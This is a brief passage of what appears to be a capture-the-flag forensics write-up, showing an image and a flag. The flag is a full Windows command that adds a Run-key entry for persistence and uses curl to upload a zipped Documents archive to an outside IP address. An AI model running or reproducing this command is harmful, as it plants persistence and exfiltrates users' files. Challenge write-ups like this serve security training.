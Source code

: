 <figure><img src="../../../.gitbook/assets/image (137).png" alt=""><figcaption></figcaption></figure>

### Flag

ihack24{reg add 'HKLM\Software\Microsoft\Windows\CurrentVersion\Run' /v report /t REG\_SZ /d 'cmd.exe /c curl -XPOST 157.230.33.7/upload -F files=@C:\Users\admin\Documents\DESKTOP-9O75B7U.zip' /f}

